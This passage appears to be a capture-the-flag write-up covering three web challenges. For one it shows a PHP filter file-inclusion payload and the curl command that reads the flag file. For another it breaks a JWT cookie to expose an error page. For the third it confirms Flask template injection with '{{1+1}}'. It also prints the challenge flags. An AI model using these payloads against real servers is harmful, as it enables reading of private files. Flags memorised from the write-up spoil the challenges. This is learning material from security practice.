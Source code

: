 payload
```bash
php://filter/convert.base64-encode/resource=FLAG
```
and we decode it,
```bash
curl http://jh2i.com:50014/index.php\?page\=php://filter/convert.base64-encode/resource\=FLAG | base64 --d

Flag = JHDCTF{lmfao_php_filters_ftw!!!}
```

## &nbsp;
## JaWT
```
90
Check the admin's scratchpad!

Connect here: http://jh2i.com:50019//
```

it's jwt challenge. first change the jwt cookie to whatever you want. the idea is to broke the app and show it's error. 
after the page show it's errors,**VOILA!!** we just found the flag.
![JaWT](./pics/jawt.png)

    Flag = JHDCTF{jawt_was_just_what_you_thought}

## &nbsp;
## MASK
```
90
Take off your mask.

Connect here: http://jh2i.com:50023.
```
this is Flask Template injection, we can make it sure by typing {{1+1}} on the input it show "2".
